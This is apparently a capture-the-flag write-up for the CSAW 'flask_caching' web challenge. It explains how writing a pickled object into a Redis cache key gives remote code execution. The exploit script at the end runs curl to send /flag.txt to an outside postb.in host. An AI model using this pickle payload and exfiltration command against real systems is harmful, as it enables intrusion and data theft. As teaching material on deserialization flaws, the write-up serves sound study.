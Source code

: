 # flask_caching (Web, 300 points)

> cache all the things (this is python3)
> http://web.chal.csaw.io:5000

This challenge serves up a Flask web application where we are able to upload  
a note with a title and file, which it puts into the Redis database. It also
uses `flask_caching` on many endpoints just because. The source code was
provided in `app.py` and the relevant parts are included below:

```python
@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=30)  # Note will only live for max 30 seconds

    return 'Thanks!'

# This caching stuff is cool! Lets make a bunch of cached functions.
@cache.cached(timeout=30)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'
# more cached functions of the same form
```

We have control over the key and content going into Redis, so it seems that we
probably want to leverage that to exploit this app.

The trick is to dig into how flask_caching serializes objects and deserializes
them when it pulls them out of the cache. It turns out it uses pickle to do so,
which is fairly simple to leverage into an RCE.

```
# From flask_caching/backends/rediscache.py
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Next we need to find out what key we need to override so that when we hit one
of the cached endpoints it will load out object from the cache and trigger our
RCE. I did this by running the app locally, modifying flask_caching directly,
and logging what keys it was using. I further confirmed this by checking the
keys in my local Redis.

Once we know the key we want to use, it's time to write up the exploit! Here's
what it looks like:

```
from pwn import *
import requests
import pickle
import os

#  URL = "http://localhost:5000"
URL = "http://web.chal.csaw.io:5000"
CACHE_TARGET = "test29"

# I tried various ways to get a full shell but wasn't able to get the connection
# made back to my host, so I used command interpolation with curl instead.
class RCE:
    def __reduce__(self):
        return os.system, ("curl https://postb.in/1599997843300-8184462329372 --data \"$(cat /flag.txt)\"",)

payload = b"!" + pickle.dumps(RCE())
files = { 'content': payload }
data = { 'title': 'flask_cache_view//'+CACHE_TARGET }
res = requests.post(URL, data=data, files=files)
log.success("Exploit payload uploaded")

log.success("Triggering exploit")
res = requests.get(URL+"/"+CACHE_TARGET)
print("GET", res.text)
```

Now when we check out postb.in, we get the flag!
